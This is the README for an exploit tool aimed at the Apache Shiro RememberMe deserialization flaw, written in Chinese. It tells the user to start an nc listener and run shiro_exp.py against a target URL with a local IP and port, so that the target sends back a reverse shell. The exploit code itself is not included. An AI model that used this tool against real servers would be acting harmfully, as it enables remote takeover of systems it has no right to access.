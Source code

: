 ### Shiro_RememberMe反序列化漏洞利用工具
(目标主机可反向连接到本机)
#### 使用方法

- nc 监听一个端口用于反弹
- 使用shiro_exp



#### Usage

- shiro_exp.py -u [url 目标网址] -lh [localhost 监听器本地IP] -lp [localport 监听端口]

![shiro_3](shiro_3.PNG)

--Hacked by Sunird
